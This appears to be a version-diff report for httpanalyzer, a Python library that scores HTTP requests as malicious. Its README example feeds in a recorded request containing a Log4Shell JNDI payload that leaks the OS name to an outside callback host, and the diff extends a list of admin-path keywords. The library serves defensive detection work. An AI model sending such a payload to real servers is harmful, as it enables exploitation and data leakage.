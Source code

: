 ```diff
+-rw-rw-rw-   0        0        0      444 2023-02-09 13:36:28.000000 httpanalyzer-0.1.4/src/httpanalyzer/utils.py
+drwxrwxrwx   0        0        0        0 2023-04-11 15:32:25.454748 httpanalyzer-0.1.4/src/httpanalyzer.egg-info/
+-rw-rw-rw-   0        0        0     3249 2023-04-11 15:32:25.000000 httpanalyzer-0.1.4/src/httpanalyzer.egg-info/PKG-INFO
+-rw-rw-rw-   0        0        0      275 2023-04-11 15:32:25.000000 httpanalyzer-0.1.4/src/httpanalyzer.egg-info/SOURCES.txt
+-rw-rw-rw-   0        0        0        1 2023-04-11 15:32:25.000000 httpanalyzer-0.1.4/src/httpanalyzer.egg-info/dependency_links.txt
+-rw-rw-rw-   0        0        0       13 2023-04-11 15:32:25.000000 httpanalyzer-0.1.4/src/httpanalyzer.egg-info/top_level.txt
```

### Comparing `httpanalyzer-0.1.3/LICENSE.txt` & `httpanalyzer-0.1.4/LICENSE.txt`

 * *Files identical despite different names*

### Comparing `httpanalyzer-0.1.3/PKG-INFO` & `httpanalyzer-0.1.4/PKG-INFO`

 * *Files 10% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: httpanalyzer
-Version: 0.1.3
+Version: 0.1.4
 Summary: Library for analyzing http-requests
 Author-email: Martin Merkli <martin.merkli@protonmail.com>
 License: MIT License
 Project-URL: homepage, https://github.com/MartinMerkli/httpanalyzer
 Project-URL: repository, https://github.com/MartinMerkli/httpanalyzer
 Keywords: python,http
 Classifier: License :: OSI Approved :: MIT License
@@ -70,22 +70,22 @@
      'Accept-Encoding': 'gzip, deflate, br',
      'Accept-Language': 'en-US,en;q=0.5',
      'Connection': 'keep-alive',
      'Host': '127.0.0.1:80',
      'User-Agent': 'curl/7.82.0'},
     '159.223.205.51',
     '/api/geojson?url=${jndi:ldap://${sys:os.name}.cd387hid68000106u4rtc.oast.me}',
-    ['wp-content', 'wp-config', 'wp-includes']
+    ['wp-content', 'wp-config', 'wp-includes', 'wp-admin', 'admin']
 )
 print(f"Malicious rating: {instance.malicious() * 100}%")
 ```
 
 ### Admin Panels
 